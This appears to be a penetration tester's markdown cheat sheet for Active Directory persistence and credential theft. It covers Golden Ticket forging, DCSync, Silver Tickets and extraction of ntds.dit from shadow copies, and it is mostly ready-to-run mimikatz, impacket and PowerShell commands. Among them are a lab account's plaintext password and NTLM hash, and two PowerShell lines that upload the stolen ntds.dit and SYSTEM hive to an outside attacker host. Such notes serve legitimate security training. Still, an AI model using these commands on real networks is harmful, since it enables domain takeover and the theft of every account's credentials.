 # Persistence

With krbtgt, We can create a Golden ticket.

### Links

- [LSA Dump](https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump)
- 

### Golden Ticket Attack

```
# Assuming that Victim account is member of Domain Admin or we have compromised the DC.
# Let's extract pass hash of krbtgt account with mimikatz.

mimikatz
privilege::debug
lsadump::lsa /patch # Look for User:krbtgt and it's NTLM Hash.

kerberos::purge
kerberos::golden /user:<TOPI> /domain:<domain_name> /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:<NTLM hash> /ptt
# This is allowed because DC trusts anything which is encrytped by krbtgt pass hash.

misc::cmd
psexec.exe \\dc01 cmd.exe # Lateral movement to DC.
whoami
whoami /groups
```

### DCSync Attack

```
DSync (Domain Controller Synchronization) -> Steal Pass hashes of all Admin Users in Domain.

Methods:
1) Laterally move to DC and run mimikatz to dump pass hash of every user.
2) Steal ntdis.dit from DC.
3) Above 2 requires tool upload and can get caught so we use 3rd method to abuse DC's functionality.
# Login with a Local admin priv account and run mimikatz.

mimikatz
lsadump::dcsync /user:Administrator # Administrator is target account.


impacket-secretsdump -just-dc-user krbtgt corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.205.70

```

We can request a replication update with a DC and obtain the pass hashes of every account in Active Directory without ever logging in to the domain controller.


### Other Notes

## Silver Tickets
```
iwr -UseDefaultCredentials http://web04
privilege::debug
sekurlsa::logonpasswords

whoami /user

kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
exit


klist
iwr -UseDefaultCredentials http://web04 | findstr /i OS{
(iwr -UseDefaultCredentials http://web04).Content | findstr /i "OS{"



```

### Shadow Copies
```
*Shadow Copies*

vshadow.exe -nw -p  C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
reg.exe save hklm\system c:\system.bak
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL



powershell.exe -c "(New-Object System.Net.WebClient).UploadFile('http://192.168.45.164:8000/', 'C:\ntds.dit.bak')"


powershell.exe -c "(New-Object System.Net.WebClient).UploadFile('http://192.168.45.164:8000/', 'C:\system.bak')"
```